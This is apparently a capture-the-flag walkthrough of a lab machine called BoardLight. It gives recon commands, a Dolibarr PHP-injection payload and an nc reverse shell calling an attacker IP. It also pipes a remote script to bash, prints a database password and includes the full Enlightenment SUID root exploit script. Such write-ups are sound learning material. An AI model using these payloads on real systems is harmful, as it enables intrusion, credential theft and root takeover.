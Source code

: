 # NOTE: IPPSec video is a must watch. explains in detail with code analysis and goes beyond scope. Has a lot of good information
## Reconnaissance
- 10.10.11.11
	- port 80 : BoardLight
		- can submit message (maybe RCE via that?)
- dirbuster finds some js code files.
- ffuf for fuzzing url
```
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/Web-Content/big.txt   -H "Host:FUZZ.board.htb" -fs 15949
```
	- We find crm.board.htb and att to /etc/hosts file
- This url leads us to login page.
	- on searching google we see default creds is admin/admin
	- We also see the version and on searching online we see it has a vulnerability : PHP code injection
		- also has a github which automates it.
```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
- pass after logging in with creds
- Gain access as www-data
## Manual method
- create new website
	- add php code in Edit HTML Source
		- pass php command to check
			- doesn't work but we see that its case sensitive and can pass if we make any or all characters in PHP uppercase
		- pass command with new knowledge
```
<?PHP echo system("whoami");?>
OR
<?pHp phpinfo();?>
```
- save and click Preview page.
- pass reverse shell 
- main exploit:
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.41 4455 >/tmp/f");?
```
- also pass php-reverse-shell.py into it and that works too.
- for both i keep netcat listener open on required port.
- both work. but we can understand why better from IPPSecs source code analysis which basically calls a bash file. (there is an even better explanation of the actual exploit which is shown below and explains the directory path having ;, abd the weird // and all to bypass the codes restrictions to pass the exploit)
```
#!/bin/bash
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o 
#MAIN PART OF EXPLOIT
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
- we check user and we are www-data
## Enumerating as www-data and Gaining initial foothold
- on enumerating we find htdocs, which holds a conf folder and a conf file.
	- within that we find a dbuser and password.
```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
- I checked /home and found a larissa directory which implies a user named larissa.
	- Can also check(more ideal enumeration)
```
cat /etc/passwd | grep "sh$" # or grep "sh" too
```
		- shows user larissa can run bash
- ssh into machine with db_pass.
	- **NOTE: Yes, can fall into a rabbit hole here as db_pass doesn't imply user pass. Definitely check IPPSec for a more detailed explanation but we eventually find some info enumerating. but it helps with the priv escalation anyway. Bottom line the code checks if user belongs to any user or groups and if not it can't execute the exploit. user larissa is part of adm group which is part of that list and thus can.)**
	- 
## Privilege Escalation
- can send linpeas by first getting it from local machine, and starting a server:
```
sudo python3 -m http.server 9898
```
- call linpeas from target
```
wget http://10.10.14.25(source_ _addr):9898/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
OR
curl http://10.10.14.25:9898/linpeas.sh|bash #to execute without downloading
```
- On enumerating we find some setuid files which are interesting. this can also be found by enumerating  with find for setuid:
```
find / -type f -perm -4000 2>/dev/null
```
- We find an enlightenment file which is unusual
- can't execute this as www-data
- can check version with larissa
```
englightenment --version
```
- we find it to be 0.23.1
- On searching online enlightenment has an exploit CVE-2022-37706
	- We download from exploit.db url :
		https://www.exploit-db.com/exploits/51180
		- and send it to target just like we did with linpeas and www-data user. Need to edit the exploit to only include the bash code within it.
```
wget http://10.10.14.25:9898/51180.txt
cat 51180.txt # copy bash code only
vi exploit.sh # paste bash code
chmod +x exploit.sh
./exploit.sh
whoami
```
- We gain root privileges
- root flag at /root/
